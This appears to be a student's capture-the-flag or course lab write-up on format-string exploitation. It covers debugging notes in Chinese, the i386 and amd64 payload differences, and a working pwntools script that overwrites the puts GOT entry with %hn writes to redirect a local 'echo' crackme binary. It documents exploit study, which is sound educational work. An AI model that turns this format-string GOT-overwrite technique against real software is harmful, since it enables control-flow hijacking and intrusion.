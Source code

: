 


# Problem

## Debug Log

1. 不能用BOF来修改RA：这次的程序没有fork了，因此每次重连canary都会不同，且printf没办法读了canary再写进去
2. 不能直接用FSB来修改echo的RA：因为有ASLR，RA在栈上的位置是不能确定的
3. 不能直接写plt中的`jmp *addr`的addr因为text段是RX的
4. 64位得改成"%ln"了
5. 只要地址在format符后面，放几个都行

## Diff of i386 & amd64

The main difference between these two is the address of GOT entries. In i386, the address are on the base `0x08040000`, there will be <u>no leading zeroes</u> in payload. But in amd64, the base is `0x0000_0000_0040_0000`, which has many leading zeroes in the addresses. This will make the payload fail to transfer to the `printf` since those 0s will be considered as the `null` for the termination of a string, so as to block all the following contents(like "%x" and "%n"). Thus we consider making address the last component of payload.

# Appendix

## exploit/01_fmt32.py

```python
from pwn import *

context(arch='i386', os='linux', log_level='DEBUG')

binary = ELF("crackme/01_fmt32/echo")
puts_got = binary.got['puts']
tar_func_got = binary.got['target_function_3180103012']
log.info('puts got: 0x%x' % puts_got)
log.info('target got: 0x%x' % tar_func_got)

p = process('crackme/01_fmt32/echo')
id_addr = int(p.recvuntil('\n')[-9:-1], 16)
log.info('id address: 0x%x' % id_addr)
p.recvuntil('You can exactly 256 charecters ...\n')

p.send(p32(puts_got + 2) + b'@@@@' + p32(id_addr) + b'@@@@' + p32(puts_got) + b'@@@@' + p32(id_addr + 2) + b'%.8x' * 5 + b'%.1984x%hn' + b'%.32096x%hn' + b'%.3234x%hn' + b'%.11142x%hn' + b'\0')

p.recvuntil('3180103012\n')

p.close()
```

